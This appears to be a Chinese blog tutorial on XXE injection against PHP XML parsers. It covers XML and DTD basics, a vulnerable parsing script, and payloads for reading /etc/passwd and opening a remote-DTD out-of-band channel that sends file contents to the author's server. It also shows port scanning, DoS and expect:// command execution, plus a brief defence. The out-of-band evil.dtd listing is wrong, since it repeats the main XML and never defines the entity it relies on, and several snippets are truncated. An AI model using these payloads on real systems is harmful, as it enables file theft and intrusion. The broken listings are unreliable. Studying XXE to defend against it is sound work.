




PHP XXE
@(正式文章)
xml是什么
XML指可扩展标记语言
用处：被设计用来传输和存储数据。
与HTML区别：HTML是被设计用来显示数据，HTML具有特效，XML用来传输数据
XML 标签没有被预定义。需要自行定义标签
XML 被设计为具有自我描述性
一个XML文档实例
第一行是xml声明，定义版本和使用编码
第二行是根元素，一个xml文档必须拥有根元素
其下几行是子元素1
2
3
4
5
6
7<?xml version="1.0" encoding="utf-8"?>
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>
XML语法规则
- 所有XML元素都必须有关闭标签
- XML标签对大小写敏感
- XML必须正确嵌套
- XML文档必须有根元素
- XML的属性值必须加引号
- 有些特殊符号需要进行实体引用
在XML中的5个预定义实体引用
- xml也有注释与html注释一样
- 在xml中多个空格是会被保留的
- xml可以有自闭和标签
XML DTD学习
DTD（文档类型定义）的作用是定义XML文档的合法构建模块。它使用一系列的合法元素来定义文档结构。
DTD可以被成行地声明于XML文档中，也可作为一个外部引用。
内部的DOCTYPE声明
语法声明1
<!DOCTYPE 根元素 [元素声明]>
带有DTD的XML文档实例1
2
3
4
5
6
7
8
9
10
11
12
13
14<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>
以上 DTD 解释如下：
!DOCTYPE note (第二行)定义此文档是 note 类型的文档。
!ELEMENT note (第三行)定义 note 元素有四个元素：”to、from、heading,、body”
!ELEMENT to (第四行)定义 to 元素为 “#PCDATA” 类型
外部文档声明
假如DTD位于XML源文件的外部，那么它应通过下面的语法被封装在一个DOCTYPE定义中1
<!DOCTYPE 根元素 SYSTEM "文件名">
DTD构建模块
所有的XML文档均有以下简单的构建模块构成：
- 元素
- 属性
- 实体
- PCDATA（实体会被XML解析器所解析）
- CDATA（实体不会被解析）
DTD属性
语法1
<!ATTLIST 元素名称 属性名称 属性类型 默认值>
DTD实体（漏洞点）
实体是用于定义引用普通文本或特殊字符的快捷方式的变量。
实体引用是对实体的引用。
实体可在内部或外部进行声明。
内部实体语法：1
<!ENTITY 实体名称 "实体的值">
内部实体声明例子：1
2
3<!ENTITY writer "kage">
<!ENTITY copyright "Copyright bu1uokage.cn">
<author>&writer;&copyright;</author>
外部实体语法：1
<!ENTITY 实体名称 SYSTEM "URI/URL">
外部实体引用例子：1
2<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
外部实体支持的协议
php扩展协议

参数实体
参数实体只能在DTD中使用。
语法：1
<!ENTITY % 实体名 "实体内容">
PHP的XML解析
DOM解析
得到面(整个文档)
1
2$xml = new Domdocument('1.0','utf-8');
$xml->load('xxx.xml');得到串(节点列表对象,nodelist Object)
1
$xml->getElementsByTagName('节点名')
得到点(节点/元素)
$nodelist->item(0/1/2….);simpleXML解析
simpleXML解析XML文件非常简单，
因为它一次性把XML文档解析成一个大对象。1
2$simxml = simplexml_load_file('./book.xml');
$simxml = simplexml_load_string($xml);
XXE攻击
XXE也就是外部实体注入漏洞，通常发生在web服务器在接收解析用户XML输入时，没有对文件内容进行过滤，禁止外部实体加载，导致造成任意文件读取、DOS、命令执行、内网端口扫描等危害。
有回显的任意文件读取
用于解析xml的php文件内容1
2
3
4
5<?php
$body = file_get_contents("php://input");
$xml = simplexml_load_string($body);
var_dump($xml);
?>
可以看到，服务器解析了我们的xml并进行回显
方法一：直接通过DTD外部实体声明1
2
3
4
5<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<note>&file;</note>

方法二：将DTD放在我们的服务器端，让目标web服务器加载我们的DTD文件
xml：1
2
3
4
5
6<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
<!ENTITY % dtd SYSTEM "http://www.silky.fun/evil.dtd">
%dtd;
]>
<note>&b;</note>
dtd:1
<!ENTITY b SYSTEM "file:///etc/passwd">
无回显的任意文件读取
无回显的任意文件读取需要我们自己构造一条外带OOB通道，具体就是，让目标服务器将文件内容赋值到参数实体中，再通过外部实体发送GET请求给我们的vps，我们写脚本或者通过vps日志文件就能获取信息。
xml内容：1
2
3
4
5
6
7<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
<!ENTITY % file SYSTEM "flag.txt">
<!ENTITY % dtd SYSTEM "http://www.silky.fun/evil.dtd">
%dtd;
%send;
]>
evil.dtd内容：1
2
3
4
5
6
7<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=flag.txt">
<!ENTITY % dtd SYSTEM "http://www.silky.fun/evil.dtd">
%dtd;
%send;
]>
发送

从access.log查看回显

端口扫描
1 | <?xml version="1.0" encoding="utf-8"?> |
我们知道80端口是开放的，这时页面会返回报错信息如下：

检测3389端口是没开放的，报错如下：
DOS
1 | <?xml version="1.0"?> |
命令执行
xml命令执行需要php有expect扩展，但是默认没有，比较难利用1
2
3
4
5<?xml version="1.0"?>
<!DOCTYPE note[
<!ENTITY xxe SYSTEM "expect://id">
]>
<note>&xxe;</note>
防御方法
1 | libxml_disable_entity_loader(true); |
遇到的坑
刚开始测试的时候，我用的是php5.6一直不能引用外部实体，后来发现php5.5以下的才能够成功。网上很多文章都没有提到，很多直接介绍xml和xxe，所以复现起来老是失败，后来在网上找到一个回答可以参考一下
以上测试在php5.4一下包括5.4是成功的，php5.5及以上是不成功的。可能的原因是5.5以上版本后，simplexml_load_string()、DOMDocument::loadxml()等不解析外部实体导致都不到文件还是因为libxml2版本的问题，还是高版本的php本身默认不解析外部实体呢，还是其他神恶魔原因呢？如果是因为php本身问题，那么XXE的利用范围也太过小了吧，应该不是这样的。。但是讲道理网上的资料太老了吧，估计也是参考别人的自己没有试验吧，等有空再做实验看看是什么问题。
今天在弄phith0n的vulhub的时候，无意间看到php-xxe的项目，得到了我想要的结果。XXE的利用跟php版本没有关系，而是xmllib的版本问题，xmllib2.9.0以后，是默认不解析外部实体的。
还有一个坑就是，无回显直接传输内容可能会失败，用php流传输比较好。